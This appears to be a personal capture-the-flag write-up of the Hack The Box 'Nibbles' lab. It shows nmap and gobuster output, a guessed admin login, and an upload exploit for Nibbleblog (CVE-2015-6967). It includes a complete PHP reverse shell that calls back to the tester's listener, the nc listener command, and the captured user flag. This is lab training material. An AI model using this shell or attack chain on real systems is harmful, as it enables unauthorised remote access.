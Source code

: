 #easy 

## 0. **Lab infos**

**Difficulty :** Easy
**Name :** Nibbles
**IP** : 10.129.96.84
**Objectives :** Get user and root flags
**OS :** Linux

##### **Conclusion**
**Time :** 
	**Start :** 21.04.2025 / 18:13
	**Break at/to :** 
	**Finish :** 
**Satisfaction :**  
### 1. **Reconnaissance

We start with an #nmap scan :

```BASH
nmap -A 10.129.96.84

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

![[Pasted image 20250421181609.png]]

On the inspector we have a comment who says /nibbleblog/

![[Pasted image 20250421181955.png]]

We make a gobuster scan :

```BASH
─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-3oaajlzaes]─[~]
└──╼ [★]$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 10.129.96.84/nibbleblog/ -x html,php,db,txt,js,log,config,py,bdd
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.84/nibbleblog/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,db,txt,html,log,config,py,bdd,js
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 303]
/.php                 (Status: 403) [Size: 302]
/index.php            (Status: 200) [Size: 2987]
/sitemap.php          (Status: 200) [Size: 402]
/content              (Status: 301) [Size: 325] [--> http://10.129.96.84/nibbleblog/content/]
/themes               (Status: 301) [Size: 324] [--> http://10.129.96.84/nibbleblog/themes/]
/feed.php             (Status: 200) [Size: 302]
/admin                (Status: 301) [Size: 323] [--> http://10.129.96.84/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/plugins              (Status: 301) [Size: 325] [--> http://10.129.96.84/nibbleblog/plugins/]
/install.php          (Status: 200) [Size: 78]
/update.php           (Status: 200) [Size: 1622]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 327] [--> http://10.129.96.84/nibbleblog/languages/]
/LICENSE.txt          (Status: 200) [Size: 35148]
```

![[Pasted image 20250421183007.png]]

![[Pasted image 20250421183246.png]]

On the admin.php page we try admin:nibbles and it's work.

We find a CVE (2015-6967) so let's try
## 2. **Weaponization

with #Metasploit 

```BASH
set RHOSTS 10.129.96.84
set TARGETURI /nibbleblog/
set USERNAME admin
set PASSWORD nibbles
```

But it's telling us to try manualy.

SO we create image.php

```PHP
<?php
// Réverse shell PHP minimal
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.117';  // votre IP d'écoute
$port = 4444;  // votre port d'écoute
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

// ouverture du socket
if (!function_exists('stream_set_blocking')) {
    die("stream_set_blocking() manquante");
}
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
    die("$errstr ($errno)");
}

// redirection des descripteurs
$fds = array($sock, STDIN, STDOUT, STDERR);
stream_set_blocking($sock, false);
stream_set_blocking(STDIN, false);

// boucle principale
while (1) {
    // lecture depuis le socket
    if (feof($sock)) break;
    $read = array($sock);
    $num_changed_streams = stream_select($read, $write_a, $error_a, null);

    if (in_array($sock, $read)) {
        $input = fgets($sock, $chunk_size);
        if (!$input) break;
        // exécution de la commande et renvoi du résultat
        $output = shell_exec($input);
        fwrite($sock, $output);
    }
}
fclose($sock);
?>
```

## 3. **Delivery

![[Pasted image 20250421185409.png]]

## 4. **Exploitation

```BASH
┌─[eu-dedivip-1]─[10.10.14.117]─[bobinette@htb-3oaajlzaes]─[~]
└──╼ [★]$ nc -lvnp 4444
```

And once we go to : 
http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php

we have our #RCE 

## 5. **Installation

## 6. **Command and Control

## 7. **Actions on Objectives

```BASH
ls /home/nibbler
personal.zip
user.txt
cat /home/nibbler/user.txt           
52e5f38017a66a6418f66d0036540450
```